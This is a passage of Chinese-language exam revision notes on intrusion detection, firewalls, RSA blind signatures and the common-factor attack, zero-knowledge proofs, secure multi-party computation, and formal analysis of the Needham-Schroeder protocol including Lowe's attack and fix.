**处理（检测）**：基于收集到的数据，执行算法以（在一定确定性程度上）找到可疑行为的证据

**配置数据**：指定入侵检测系统的工作方式、如何收集数据、如何对检测到的攻击做出响应等

**参考数据**：关于已知入侵特征的信息、关于不良/正常行为的信息

**活动/处理中数据**：中间结果，应在处理过程中存储


#### [9.2.1] 入侵检测系统的类型

入侵检测系统（IDS）的三大主要类型，概括为表格：

| **类别**                  | **监控对象**         | **核心特点**                                       | **局限性/示例**                                              |
| ------------------------- | -------------------- | -------------------------------------------------- | ------------------------------------------------------------ |
| **基于网络的 IDS (NIDS)** | 全网流量（网络骨干） | **被动监听**、分布式部署、攻击者难发现             | 大流量环境下处理性能受限                                     |
| **基于主机的 IDS (HIDS)** | 操作系统与文件系统   | **监控细节深**（如特定命令执行）、直接保护核心文件 | 需在每台主机单独安装                                         |
| **基于应用的 IDS**        | 特定软件内部事件     | 关注**业务逻辑层**的异常活动                       | 示例：<br />数据库 (DBMS)<br />**会计/财务系统** (Accounting system)<br />**内容管理系统** (Content management) |


#### [9.2.2] 入侵检测方法

三个主要类别

**基于知识的入侵检测（Knowledge-based Intrustion Detection）**

- 基于策略（Policy-based）
- 基于特征（Signiture-based）
- 基于规范（Specification-based）
- 系统尝试基于上述三种【知识】去匹配收集到的数据，找出可疑行为（Suspicious behaviour）

> 额外补充，PPT没有
>
> | **类别**     | **优势**                       | **劣势**                       |
> | ------------ | ------------------------------ | ------------------------------ |
> | **基于策略** | 严格执行组织规定，业务针对性强 | 规则死板，漏掉未定义的违规行为 |
> | **基于特征** | 检测已知攻击极度精准，误报率低 | 无法识别任何新变种或未知攻击   |
> | **基于规范** | 能发现偏离合法轨迹的异常操作   | 为复杂系统建立完美规范极其耗时 |


**基于异常（行为）的入侵检测（Anomaly(behaviour)-based Intrustion Detection）**

- 对异常行为做出反应，系统会学习，什么是正常行为（Normal Behaviour）什么是异常行为（Abnormal Behaviour）

| **优势 (Advantages)**                            | **劣势 (Disadvantages)**                               |
| ------------------------------------------------ | ------------------------------------------------------ |
| **检测未知攻击**：能够识别新型或未知的入侵方式。 | **高误报率**：极易将正常的异常行为判定为攻击。         |
| **环境依赖性低**：对特定操作系统环境的依赖较小。 | **维护难度大**：用户行为随时间变化，需不断更新基准库。 |
| **发现权限滥用**：能识别合法用户执行的异常操作。 | **计算开销高**：需要持续学习和建模正常行为。           |


**基于特征码的入侵检测（Signature based Detection）**

类似于字符串匹配，搜索这些的检测！

| **维度** | **内容**                       | **原因**                                             |
| -------- | ------------------------------ | ---------------------------------------------------- |
| **优点** | **极低的误报率** (False Alarm) | 只有完全符合预设特征的行为才会报警，非常精确。       |
| **优点** | **实现简单、效率高**           | 算法本质是字符串匹配，不像 AI 那样消耗大量计算资源。 |
|          |                                |                                                      |
| **缺点** | **无法检测未知攻击**           | 数据库里没有的特征，它就看不见。对“零日攻击”无效。   |
| **缺点** | **维护成本高**                 | 必须不断手动更新特征库，否则系统很快就会过时。       |


### [9.3] 入侵检测

PPT 14 介绍了七种入侵检测的方法！


#### [9.3.1] 统计分析

**统计分析（Statistical Analysis）**

核心是通过**多变量**持续度量用户/系统行为（如登录登出、文件访问量、硬件资源使用等），更新频率可从分钟到月不等；

系统存储各变量均值，当数值超出预设阈值时触发检测，也可构建用户短期和长期行为轮廓的复杂模型。

> 例如：通过监控这个用户的登陆次数、访问页面频率等判断是不是机器人用户。


#### [9.3.2] 神经网络与机器学习

**神经网络与机器学习（Neural Networks and Machine Learning）**


借助学习算法挖掘输入输出的关联，学习系统中用户、进程等主体的行为模式；

相比统计分析，能轻松表达变量间**非线性关系**、自动学习复杂关联，可预测普通用户和超级用户行为，**但神经网络计算成本较高**，也可结合其他机器学习技术使用。


#### [9.3.3] 基于规则（专家）系统 

**基于规则（专家系统）Rule-based (expert) Systems**

这个系统：基于一组**预先定义的（Previously Defined）**描述攻击的**规则**工作

- 所有与安全相关的事件都被转化为if-then-else规则。

- 推理引擎（Inference Engine）可用于推断**结论（Conclusion）**

  > 根据已有的“事实”，对照“规则库”，推导出最终的“结论”

- 典型示例为AT&T开发的Wisdom & Sense和ComputerWatch；


#### [9.3.4] 基于特征的方法

基于特征的方法（Signature based method）

- 意思是和已知的攻击特征库进行对比
- 比如：检测外部网络传入的大小超800字节的ICMP数据包即触发警报
- 主流工具包括Snort、Suricata、Zeek；
- 优势是误报率极低、算法简单易实现，劣势是难以更新新攻击特征、无法检测未知攻击。


#### [9.3.5] 状态转换分析

状态转换分析（State-Transition Analysis）

- 把攻击描述为：入侵者攻陷系统，需完成的目标和状态转换过程
- 用状态转换图呈现转换关系
- 通过推理引擎将**审计记录（Audit Records）**与攻击描述匹配：
  - 采用事件驱动（Event Driving）、前向链接（Forward Chaining）方式




#### [9.3.6] 用户意图识别

**用户意图识别 User Intension Identification**

- 这种技术通过用户必须在系统上执行的一系列高级任务来模拟用户的正常行为。
- 这些任务被视为**一系列操作（Series of actions）**，而这些操作又与相应的**审计数据（Audit data）**相匹配。
- 如果遇到不匹配的情况，就会发出警报。


#### [9.3.7] 计算机免疫学

**计算机免疫学 Computer Immunology**

模型由两部分组成：

- 代表服务适当行为的**审计数据（Audit data）**
- 包含所有已知“良好”**系统调用（System Call）**序列**的知识库（Knowledged-based）**

类比人体免疫原理，为UNIX网络服务（非单个用户）构建正常行为模型，核心是提取进程的系统调用短序列，假设攻击会触发异常的程序执行路径；模型包含服务正常行为的审计数据和存储“合法”系统调用序列的知识库，通过监控系统调用序列是否匹配知识库判定入侵；

- 优势是若知识库完善则误报率极低、可在线更新知识库，劣势是无法检测攻击者通过合法操作的越权访问，且未考虑系统调用的参数。


#### [9.3.8] 数据挖掘

**数据挖掘（Data Mining）**

- 从海量数据中提取未知信息，适用于**大规模审计数据的离线处理（Large volumes of audit data - off line process）**
- **对网络流量的流式分析效果较差**
- 通过分析事件记录的共现和关联关系，生成决策树、关联规则等简洁的关系表征，可精准判定特定攻击（如判定SYN洪水攻击的多条件关联规则）。

## [10] RSA 盲签名 (Blind Signature) <small>⚠️ 不在 PPT，Mock Q3(b) 考题</small>

> 此内容未出现在任何 PPT 或 Lab 资料中，但 Mock 试卷 Q3(b) (10 分) 明确考察。以下基于 RSA 原理推导。

### [10.1] 核心思路

Alice 想让 Bob 签名消息 $m$，但**不让 Bob 看到 $m$ 的内容**。Bob 签一个"盲化"的值，签完后 Alice 去盲得到干净的签名。

### [10.2] RSA 盲签名步骤

1. **盲化 (Blinding)**：Alice 选随机数 $r$（与 $n$ 互质），计算 $m' = m \times r^e \bmod n$，发送 $m'$ 给 Bob
2. **签名 (Signing)**：Bob 用私钥 $d$ 签名 $s' = (m')^d = (m \times r^e)^d = m^d \times r^{ed} = m^d \times r \bmod n$，返回 $s'$
3. **去盲 (Unblinding)**：Alice 计算 $s = s' \times r^{-1} \bmod n = m^d \bmod n$——得到 Bob 对 $m$ 的标准 RSA 签名

关键：步骤 2 中 $r^{ed} \equiv r \pmod{n}$（由 $ed \equiv 1 \pmod{\phi(n)}$ 保证），去盲时 $r$ 被 Alice 的 $r^{-1}$ 消掉。

### [10.3] 应用

| 场景                     | 作用                                                         |
| ------------------------ | ------------------------------------------------------------ |
| **电子投票 (E-Voting)**  | 投票者盲化选票 → 认证机构签名（确认合法选民身份）→ 去盲 → 选票 + 有效签名交计票方。签名证明身份，但签名者不知道投了谁——**身份验证与投票内容分离** |
| **电子支付 (E-Payment)** | 买家盲化电子货币序列号 → 银行签名（确认账户有余额）→ 去盲 → 付给商家。银行验证支付能力但不知道买了什么——**授权与消费内容分离** |


## [11] RSA 公因子攻击 (Common Factor Attack) <small>Mock Q4(a) 8分</small>

### [11.1] 攻击原理

两个不同用户（如网站 A 和网站 B）各自独立生成 RSA 密钥对。如果他们的模数 $n_A$ 和 $n_B$ **共享了一个质因子**（如用了相同的 $p$），攻击者只需算一次 gcd 就能同时破解两者：

$$\gcd(n_A, n_B) = p$$

然后 $q_A = n_A / p$，$q_B = n_B / p$ → 得到 $\phi(n_A)$ 和 $\phi(n_B)$ → 算出两个私钥 $d_A, d_B$。

Euclid 算法算 gcd 极快 ($O(\log n)$)，两两扫描全网公钥成本很低。

### [11.2] 为什么实践中可能发生

PPT 原话：*"Due to insufficiently good random number generators used in key generation, some number of keys used in the wild have common divisors."*

密钥生成时需随机选大质数 $p, q$。如果**随机数生成器 (RNG) 质量差**——种子可预测、熵不足——不同设备在相近时刻生成的"随机"质数可能碰巧相同。2012 年真实研究扫描全网 RSA 公钥，发现大量共享因子的密钥对。

> 该攻击是 **not targeted**——攻击者不针对特定目标，而是批量收集公钥算两两 gcd，捞到一批可破的密钥。

---

# 网络

## [1] 防火墙

正如我们已经讨论过的，许多严重的安全威胁来自网络。**防火墙（Firewalls）**基于对本地网络与其他网络之间连接的控制，实现硬件或软件解决方案。

### [1.1] 软/硬 件件防火墙

硬件防火墙（Hardware Firewall）：




软件防火墙：



回顾一下计算机网络的 OSI 七层模型：








### [1.2] 防火墙特点

防火墙特点：

- 所有从**内部到外部的流量**，以及从**外部到内部的流量**，都必须经过防火墙。不通过防火墙，所有对本地网络的访问都会被阻断。
- 只有经本地安全策略定义的授权流量才允许双向通行。

### [1.3] 防火墙控制类型

**防火墙使用的控制类型（Types of control used by firewalls）**

- 服务控制：确定可以访问的服务类型
- 方向控制：确定特定服务请求可以从哪个方向发起
- 用户控制：根据用户决定对服务的访问权限
- 行为控制：控制特定服务的使用方式。

### [1.4] 防火墙局限性

防火墙的局限性（Limitations of the firewalls）

- 无法防御那些会绕过防火墙的攻击。
- 无法防范内部威胁（Internal Threats）。
- 通常无法防范病毒感染的程序或文件的传输。


### [1.5] 防火墙的三种类型

防火墙类型可以分为3种：

- 包过滤路由器（Packet filtering router）
  - （工作在网络层 Network Layer，IP）
- 电路级网关（Circuit-level gateway）
  - （工作在传输层Transport Layer，TCP）
- 应用级网关（Application-level gateway）
  - （在更高层级工作）


#### [1.5.1] 包过滤路由器

**包过滤路由器（Packet filtering router）是什么？**

字面意义的！



- 包过滤路由器会对每个传入的IP数据包应用一组规则，然后转发或丢弃该数据包。
- 过滤规则有很多
  - 源IP地址（Source IP Address）
  - 目的IP地址（Destination IP Address）
  - 源端和目的端传输层地址（Source and Destination transport-level address）：传输层端口号（port number）
  - IP协议字段（IP Protocol Field）：定义传输协议（Defines the transport protocol）
- 过滤基于网络数据包中包含的信息。


**包过滤丢弃和转发策略**

一般有这两个策略：丢弃（Discard）和**转发（Forward）**！

丢弃策略（Discard）：没有被允许的内容全部禁止（Not explictly permitted is prohibited）

- 这是一个很保守的（Conservative）策略！

转发（Forward）：没有被明确禁止的内容全部允许（Not explictly prohibited is permitted）

- 很便捷，但是安全性比较低！一旦识别到威胁就要添加策略。


**包过滤优缺点**

优点：

- 对用户透明（Transparent for users）
- 简单、速度快

缺点：

- 缺乏上层功能（Lack of upper functionality）

- 不支持高级用户认证方案（Do not support advanced user authentication schemes）

- 无法阻止特定的应用程序命令：要么不允许该应用程序，要么允许其所有功能。

  > （Cannot block specific application commands: either the application is disallowed, or all its functions are permitted）


#### [1.5.2] 电路级网关

Circuit-level gateway



流量（Traffic）根据指定的**会话规则（Session Rule）**进行过滤

- 例如：Session 由已识别的计算机发起。

**电路级网关**建立两个连接：

- 自身与内部主机用户（TCP）
- 自身与外部主机用户（TCP）

一旦建立连接且满足安全标准，网关（Gateway）就会将这两个连接关联起来。


电路级网关优缺点分析：

优点：

- 便宜！
- 优势在于，隐藏私有网络相关信息

缺点：

- 不过滤单个数据包！


#### [1.5.3] 应用层网关（代理）

Application Level Gateway



- 可以在OSI模型的**应用层（Application Layer）**对数据包进行过滤。
- 传入或传出的数据包**无法访问没有代理的服务**
  - 例如，配置为Web代理的应用级网关不会允许任何FTP、Telnet或其他流量通过。
- 它们可以过滤特定于应用程序的命令
  - 例如`http:post`和`get`等。


优点：

- 安全性很高！
- 可以针对特定的应用程序，进行保护！

缺点

- 对网络性能有重大影响
- 对终端用户不透明
- 需要手动配置每台客户端计算机


### [1.6] 防火墙的优点和缺点分析

优点：

- 防火墙保护**专用局域网**，以免受来自互联网的恶意入侵（Hostile Instrusion）
- 具有灵活的安全措施（Security Policies）
- 相对便宜（Inexpensive）的解决方法


缺点：

- 可能存在流量瓶颈（Traffic Bottleneck）
- 安全性集中在一个点上（Security concentrated in one spot）


关键的下一代防火墙要求

- **识别应用程序，而非端口** (Identify applications, not ports)
- **识别用户，而不只是 IP 地址** (Identify users, not just IP addresses)
- **实时检测内容（深度数据包分析）** (Inspect content in real-time - deep packet analysis)
- **简化策略管理** (Simplify policy management)
- **提供数千兆级（多吉比特）吞吐量** (Deliver multi-gigabit throughput)


## [2] 零知识证明 ZKP

Zero-Knowledge Proofs, ZKP

零知识证明旨在回答：我们能否在**不泄露秘密本身**的情况下，向他人证明我们拥有该秘密（如问题的解或密码）？ 答案是肯定的！

> 该理论起源于 1980 年代（由 Goldwasser, Micali, Rackoff 提出） 


### [2.1] 什么是ZKP

为了解释这个抽象概念，PPT 提供了几个通俗易懂的例子：

- **寻找沃尔多（Where's Waldo?）**：证明你知道沃尔多在哪里，但不展示整张图片或沃尔多的具体坐标 。

- **红绿卡片实验**：向红绿色盲（Bob）证明两张卡片颜色不同。

  - Bob 分不清红色和绿色。Alice 声称这两张卡片颜色不同 
  - 挑战：Bob 在背后随机交换卡片，然后拿出一张让 Alice 猜是哪张 
  - 逻辑：如果卡片颜色真的相同，Alice 只能靠瞎猜（50% 胜率）
  - 如果 Alice 每次都能说对，那说明卡片颜色确实不同 。

- **3-着色问题（3-colorability）**：证明你知道一个复杂图的着色方案（相邻节点颜色不同），但不向对方展示完整的着色图 。

  - **问题背景**：图的 3-着色是指给图的每个顶点涂上三种颜色（如红、绿、蓝）中的一种，使得任何两个相邻顶点的颜色都不相同 。
  - **难度**：这是一个经典的 NP-困难问题，对于大规模的图来说，寻找解是非常困难的 。
  - **零知识目标**：证明者（佩吉）需要让验证者（维克多）相信她拥有这个解，但不能让维克多学到任何一个顶点的具体颜色 。
  - 佩吉先将图中的所有顶点按照她知道的方案涂好颜色，但她不会直接展示给维克多。相反，她将每个顶点的颜色“扣上”（例如装在不透明的信封里或进行加密） 。
  - 维克多无法看到全部颜色，他被允许随机挑选**一对相邻的顶点**（即一条边），并要求佩吉打开这两个顶点的“信封” 。
    - 如果这两个顶点的颜色**不同**，维克多会增加一点信心。
    - 如果颜色**相同**，则证明佩吉在撒谎。
  - **重新洗牌 (Reshuffling) —— 最关键的一步**
    - 在进行下一轮测试之前，佩吉必须执行“重新洗牌”
    - 她保留原有的着色逻辑（即原来颜色不同的依然不同），但**随机置换颜色标签** 。
    - **例子**：如果第一轮红色变蓝色、蓝色变绿色、绿色变红色；第二轮可能又变成另一种映射。
    - **目的**：这样即便维克多下一轮又选到了同一个顶点，由于标签变了，他也无法通过多次观察推断出该顶点的固定颜色 。

  


#### [2.1.1] 同构图



如果两个图的结构完全相同，只是节点的排列或标签不同，那么它们就是**“==同构（Isomorphism）==”**的

**核心定义**：如果图 $G_1$ 的顶点可以通过重新标记（Relabelled）得到图 $G_2$，则称这两个图是同构的 。

**直观理解**：这意味着两个图在拓扑结构上是“双胞胎”——即使它们画出来的样子看起来完全不同，但节点之间的连接关系是完全一致的 。




**初始状态**：Bob 有两个图 $G_1$ 和 $G_2$，Alice 声称这两个图**不是同构的**（即它们结构不同，无法通过重命名顶点互相转化） 。

**Bob 的挑战**：

- Bob 随机从 $G_1$ 或 $G_2$ 中挑一个。
- 他给这个图做一次“整容”：**随机重新标记顶点**，得到一个看起来全新的图 $H$ 。
- Bob 把 $H$ 给 Alice 看，问她：“这个 $H$ 是从 $G_1$ 变来的，还是从 $G_2$ 变来的？”

**Alice 的证明**：

- 如果 $G_1$ 和 $G_2$ 真的不同（非同构），拥有强大计算能力的 Alice 能够一眼识破 $H$ 到底像谁。
- 如果 Alice 每次都能准确说出来源，Bob 就会相信这两个图确实不一样 。

这样，计算力弱的Bob无法计算出是否同构，但是根据不断交换，以及Alice秒答+高准确率，Bob就可以相信Alice的计算能力非常强，以至于能够相信她：确实不是同构的！


### [2.2] ZKP 三大基本特性

一个有效的 ZKP 必须具备以下属性：

- **完备性（Completeness）**：如果证明者拥有真实解，则有极高概率说服验证者 。
- **可靠性（Soundness）**：如果证明者没有解，他们几乎不可能欺骗验证者 。
- **零知识性（Zero-knowledge(ness)）**：验证者除了“证明者确实拥有解”这一事实外，学不到任何关于解的信息 。


### [2.3] ZKP 进阶技术与系统

**zk-SNARK**：一种简洁、非交互式的知识论证。证明者发送一段简短的消息，验证者即可快速验证（例如证明你知道某个哈希值的原始输入） 。

- 非常经典的例子：**证明你知道某个哈希值的原始输入**
- **传统做法**：你必须把原始字符串给验证者，验证者自己跑一遍哈希函数，看结果对不对。但这样秘密就泄露了。
- **zk-SNARK 做法**：你生成一个“简短的证明”，发给验证者。验证者看一眼证明，就能 100% 确定你手里有那个原始字符串，但他却完全猜不出字符串的内容 。
- zk-SNARK 应用：比特币！区块链（Blockchain）！
- 


**DIZK**：由加州大学伯克利分校开发，利用 Java 和 Apache Spark 将大规模 ZKP 计算分布在计算机集群上，可处理包含数十亿个电路的陈述 。


## [3] 安全多方计算 SMPC

Secure Multi-Party Computation, SMPC

SMPC 允许几方共同计算一个有用的函数 $F(x, y)$，同时确保各方都无法看到彼此的私有输入数据（$x$ 和 $y$） 


**经典问题：**

- **姚氏百万富翁问题（Yao's millionaire problem, 1982）**：两个富翁想知道谁更富有，但都不想透露自己的资产总额 。
- **糖果问题**：两人想知道彼此拥有的巧克力数量是否相等，而不透露具体数量 。


### [3.1] 如何实现SMPC

- **姚氏协议（Yao's Protocol）与混淆电路（Garbled Circuits）**：通过加密逻辑表和随机置换，两个人在不泄露各自隐私（$x$ 和 $y$）的前提下，共同计算出结果 $F(x, y)$ 。
  - 证明者 $P_1$（假设是爱丽丝）先做功课。她算出输入 $x$ 和 $y$ 所有可能的组合结果，并填入一张表 $T$ 。比如$n\times n$ 的表格，横纵轴分别是你的钱和我的钱，然后值是结果。但是这个表要打乱！
  - $P_1$ 不会直接把表给对方。她给表里的每一个结果都上了**两把随机锁**（对应的密钥是 $k_x$ 和 $k_y$） 
  - 最后，$P_1$ 把对应她自己实际隐私 $x$ 的那把钥匙 $k_x$ 发给 $P_2$ ，$P_2$ 拿着自己的要是和$P_1$ 的钥匙，能够唯一打开某个单元格！

- **不经意传输（Oblivious Transfer, OT）**：这是实现上述协议的关键，它允许接收者获取特定信息，而发送者不知道接收者选择了哪一个 。
- **JIFF 库**：由波士顿大学开发，是一个用于构建 SMPC 应用的 JavaScript 库，支持在浏览器、移动设备或 Node.js 环境下运行 。

> 这里我没搞明白这个传输是什么鬼意思，太乱了，来源太少了。

## [4] ZKP 和 SMPC 应用


- **ZKP 应用**：身份认证、信息交换合同、可验证计算、编辑后照片的真实性验证等 。
- **SMPC 应用**：安全拍卖、投票、安全机器学习、隐私保护基因组学等。


高级加密程序应用：

- 全同态加密  Fully Homomorphic Encryption (FHE)
- ZPK
- SMPC
- 私有信息检索（数据库）Private Information Retrieval
- 后量子密码学 Post-Quantum Cryptography


# 安全协议与形式化验证

## [1] 安全协议基础

**安全协议（Security Protocol）** 是通信双方在消息交换过程中遵循的一套规则，旨在实现以下安全目标：

- **认证 (Authentication)**
- **密钥建立 (Key Establishment)**
- **机密性 (Confidentiality)**
- **完整性 (Integrity)**

> 例子：Diffie-Hellman 协议就是一种建立共享密钥的安全协议。


## [2] Needham-Schroeder NS 协议（共享密钥版）

Needham-Schroeder 协议的目标是：在存在攻击者（可拦截、延迟、读取、复制、生成消息，但不知道各方的秘密密钥）的情况下，实现 **A 和 B 之间的双向认证**。

A 和 B 通过**认证服务器 S** 获得一个共享会话密钥，协议使用**对称加密/解密**。

### [2.1] NS 协议流程



**消息 1** — A → S：$A, B, N_A$

- A 联系认证服务器 S，发送 A 的身份、B 的身份、以及 A 生成的 **nonce** $N_A$

**消息 2** — S → A：$\{N_A, B, K_{AB}, \{K_{AB}, A\}_{K_B}\}_{K_A}$

- S 用 $K_A$（A 与 S 共享的密钥）加密回复，内容包含：
  - $N_A$：让 A 确认这不是重放
  - $K_{AB}$：新生成的**会话密钥**（给 A 用）
  - $\{K_{AB}, A\}_{K_B}$：给 B 的**票据/证书**（用 B 的密钥 $K_B$ 加密，A 解不开）

**消息 3** — A → B：$\{K_{AB}, A\}_{K_B}$
- A 将该票据原封不动转发给 B

**消息 4** — B → A：$\{N_B\}_{K_{AB}}$
- B 解密票据拿到 $K_{AB}$ 和 A 的身份
- B 生成自己的 nonce $N_B$，用 $K_{AB}$ 加密后发给 A（**nonce 握手**）

**消息 5** — A → B：$\{N_B - 1\}_{K_{AB}}$
- A 解密拿到 $N_B$，将其减 1 后用 $K_{AB}$ 加密发回
- 证明 A 确实持有 $K_{AB}$

**最终结果**：A 和 B 共享 $K_{AB}$，且双方都确信对方在线（因为 nonce 握手成功）。

### [2.2] 核心概念

| 概念 | 含义 |
|------|------|
| **Nonce（一次性随机数）** | $N_A$、$N_B$ 是 A 和 B 各自生成的随机数，用于保证消息的**新鲜性 (Freshness)**，防止重放攻击 |
| **$K_A$ / $K_B$** | A / B 各自与认证服务器 S 共享的长期密钥 |
| **$K_{AB}$** | S 为 A 和 B 生成的临时**会话密钥 (Session Key)** |
| **票据 (Ticket/Certificate)** | $\{K_{AB}, A\}_{K_B}$，用 B 密钥加密的"介绍信" |


## [3] 协议正确性分析

### [3.1] 为什么需要形式化分析？

一个协议**看起来正确，但可能包含微妙的缺陷**。

我们通常用的"半形式化论证"（如："用 Alice 的公钥加密的消息只有 Alice 能解密"）在特定假设下是有效的。但问题在于：

- **我们是否考虑了所有可能的攻击场景？**
- **隐含假设是否真的成立？**

> 形式化分析 (Formal Analysis) 帮助我们**系统性地检查所有可能的行为**。

### [3.2] 分析安全协议的四个核心问题

| 问题 | 说明 |
|------|------|
| **每条消息携带什么？** | 密钥、nonce、身份、加密数据... |
| **接收者学到了什么？** | 能验证发送者身份？还是只能读数据？ |
| **协议目标是什么？** | 认证？密钥交换？机密性？ |
| **攻击者能如何干扰？** | 拦截、重放、篡改、冒充... |

> 核心洞察：加密本身**不等于**安全——还需要确保身份、新鲜性、正确的会话绑定。

### [3.3] 典型攻击类型

| 攻击类型 | 中文 | 说明 |
|----------|------|------|
| **Man-in-the-Middle (MITM)** | 中间人攻击 | 攻击者在双方之间中继消息，双方以为在直接通信 |
| **Impersonation** | 冒充攻击 | 攻击者伪装成另一个合法方 |
| **Replay Attack** | 重放攻击 | 复用旧消息（因为缺乏新鲜性检查） |
| **Parallel Session / Reflection** | 并行会话 / 反射攻击 | 跨会话复用消息 |
| **Message Substitution** | 消息替换 | 攻击者修改消息内容 |

> 警告：加密本身不够——必须确保**身份 (Identity)**、**新鲜性 (Freshness)** 和**正确的会话绑定 (Session Binding)**。


## [4] 形式化方法

### [4.1] 问题背景

什么"肉眼检查"不够？

设计完一个安全协议（如 Needham-Schroeder），你怎么验证它真的安全？

**传统做法**：让专家逐条看消息，推理"嗯，这条消息用 Alice 的公钥加密，只有 Alice 能解密，所以没问题..."

**这种做法的致命缺陷**：

- 安全协议要在**攻击者存在**的环境下运作——攻击者可以拦截、重放、篡改、生成消息
- 攻击者可能同时参与多个会话（例如：一边和 A 通信，一边冒充 A 和 B 通信）
- 专家推理时往往只考虑 **"正常流程"**，而忽略了攻击者**组合多条消息、跨会话利用**的可能性
- 隐含假设太多：如 "对方身份可以信任"、"nonce 一定新鲜" 等，攻击者专门钻这些假设的空子

> **Lowe 攻击就是铁证**：Needham-Schroeder 协议在 1978 年发布，直到 1995 年才被 Gavin Lowe 用模型检测工具发现漏洞——整整 17 年没人看出问题！

**形式化方法** 的思路：把所有假设**显式写出来** → 建立**数学模型** → 用计算机**系统地检查**所有可能的攻击路径（而不是依赖人脑猜测）。

### [4.2] 两大方法

| 方法 | 类比 | 核心做法 | 代表工具 |
|------|------|----------|----------|
| **模型检测 (Model Checking)** | 用计算机穷举"攻击者能做的一切" | 把所有可能的消息收发序列画成状态图，逐个检查有没有"坏状态" | ProVerif, SPIN, SMV |
| **定理证明 (Theorem Proving)** | 像做数学证明题一样推导协议安全性 | 用逻辑公式描述协议和攻击者，证明"不可能到达坏状态" | Isabelle, PVS, TAPS |


## [5] 模型检测 (Model Checking)

### [5.1] 解释

**模型检测 = 让计算机扮演攻击者，穷举所有可能的攻击路径，看能不能到达一个"坏状态"。**

### [5.2] 如何工作（以 NS 公钥协议为例）

**Step 1: 建立系统状态模型 M**

把协议涉及的所有东西抽象成"状态"：
- 每个参与者的知识：知道哪些密钥、nonce、身份
- 网络中的消息：谁发了什么、谁收到了什么
- 攻击者的知识：攻击者拦截到了什么、能生成什么

**Step 2: 定义"坏状态"**

即我们要验证的安全属性，例如：
- 是否存在一种情况：B 认为自己在和 A 通信，但实际上他在和一个腐化参与者 I 通信？(认证性被破坏)

**Step 3: 状态空间搜索**

计算机从初始状态出发，在每个步骤，攻击者可以：
- 拦截消息、读取内容
- 用已知的密钥解密
- 用任意已知材料构造新消息
- 发起新的会话、重放旧消息

计算机**穷举所有可能的操作序列**，画出完整的状态转换图：

 

**Step 4: 结果**

- 如果找到一条从初始状态到"坏状态"的路径 → **协议有漏洞**，路径本身就是**攻击脚本**
- 如果穷举完所有路径都没找到 → **在给定假设下协议安全**

### [5.3] Gavin Lowe 正是这么做的

1995 年，Lowe 用模型检测工具 FDR 对 Needham-Schroeder 公钥协议建模。FDR 在状态空间中自动发现了一条攻击路径——即后面的 [Lowe 攻击]。这个攻击**完全不是人类专家靠肉眼发现的**，而是计算机穷举出来的。

### [5.4] 优缺点

| 优点 | 缺点 |
|------|------|
| 全自动化，无需人工推理 | 只能处理**有限状态**（有限参与者、有限会话数） |
| 检查很高效，不遗漏任何路径 | 如果参与者或会话数无界 → 状态爆炸，无法穷举 |
| 发现漏洞时输出**具体攻击路径** | 没发现漏洞 ≠ 绝对安全，可能只是状态空间被截断了 |


## [6] Gavin Lowe 对 NS 协议的攻击 (1995-1996)

这是**模型检测在安全协议验证领域最著名的成功案例**——发现了基于**公钥加密**的 Needham-Schroeder 协议中的一个缺陷。

### [6.1] 原始协议（公钥版）

| 消息 | 方向 | 内容 |
|------|------|------|
| Msg 1 | A → B | $\{A, N_A\}_{PK(B)}$ — A 用自己的身份和 nonce，用 B 的公钥加密 |
| Msg 2 | B → A | $\{N_A, N_B\}_{PK(A)}$ — B 返回两个 nonce，用 A 的公钥加密 |
| Msg 3 | A → B | $\{N_B\}_{PK(B)}$ — A 返回 B 的 nonce，用 B 的公钥加密 |

### [6.2] Lowe 发现的攻击

攻击者 I (Intruder) 是一个**已腐化的合法参与者**，可以冒充 A：

```
Msg 1a: A → I : {A, N_A}_{PK(I)}          A 想和 I 通信
Msg 1b: I → B : {A, N_A}_{PK(B)}          I 冒充 A 联系 B
Msg 2b: B → I : {N_A, N_B}_{PK(A)}        B 回复 (以为在回复 A)
Msg 2a: I → A : {N_A, N_B}_{PK(A)}        I 把 B 的消息转发给 A
Msg 3a: A → I : {N_B}_{PK(I)}             A 解密后返回 N_B
Msg 3b: I → B : {N_B}_{PK(B)}             I 用 A 的 N_B 回复 B
```

**结果**：B 以为自己在和 A 通信，但实际上中间有 I。A 发起了一个与 I 的会话，而 I 成功冒充 A 与 B 建立了会话。

> 这被称为 **"中间人攻击 (Man-in-the-Middle Attack)"** 在认证协议中的经典案例。

### [6.3] 修复方案 (Lowe's Fix)

在消息 2 中加入 B 的身份：

| 原始 Msg 2 | $B \rightarrow A: \{N_A, N_B\}_{PK(A)}$ |
|-----------|------------------------------------------|
| **修复后** | $B \rightarrow A: \{{\color{red}\mathbf{B}}, N_A, N_B\}_{PK(A)}$ |

用修复后的协议重走攻击场景：

```
Msg 1a: A → I : {A, N_A}_{PK(I)}              A 与 I 发起会话（一切正常）
Msg 1b: I → B : {A, N_A}_{PK(B)}              I 冒充 A 联系 B
Msg 2b: B → I : {B, N_A, N_B}_{PK(A)}         B 回复 ← 消息里加了 B 的身份！
Msg 2a: I → A : {B, N_A, N_B}_{PK(A)}         I 没有 A 的私钥 → 解不开也改不了 → 只能原样转发

A 用私钥解密，看到 {B, N_A, N_B}：
  → N_A 是我发给 I 的 nonce，回复的却是 "B"？！
  → 我根本没和 B 发起过会话，B 怎么会有我的 N_A？
  → ❌ A 检测到异常，立即中止 —— 攻击被阻断！
```

**修复原理**：A 发出的 $N_A$ 是与会话绑定的——A 向 I 发送了 $N_A$，如果回复里声称是 B，说明 I 把 $N_A$ 转发给了 B（即 I 在冒充 A 与 B 通信）。原始协议中 A 只能看到 $\{N_A, N_B\}$，无法区分对面到底是谁，所以会傻傻地在 Msg 3 中把 $N_B$ 返回给 I。


## [7] 定理证明 & ProVerif 

> 两套往年试卷均无涉及。了解概念即可。

- **定理证明**：把协议写成逻辑公式，数学推导证明无漏洞。能处理无限状态但难以全自动。代表：Isabelle、PVS。
- **ProVerif**：基于逻辑编程的自动化验证工具，协议写成 Horn 子句，自动检查安全目标是否可达。


## [8] 协议分析实战套路 <small>★ 考试 Q4(c)</small>

两套卷子都有一道 9-10 分的题：**给你一个简单密钥交换协议 → 找出问题 → 修复**。

### [8.1] 分析清单（逐条对照）

拿到协议，按这个顺序过一遍：

| # | 检查点 | 问自己 |
|---|--------|--------|
| 1 | **加密对象对不对？** | 用 A 的公钥加密 → 只有 A 能解密，B 收到等于白收。应该是谁接收就用谁的密钥 |
| 2 | **有没有身份信息？** | 消息里包含发送者/接收者身份吗？没有 = 无法区分谁发的，可冒充 |
| 3 | **有没有防重放？** | 每条消息有 nonce/时间戳/序列号吗？没有 = 旧消息可以重放 |
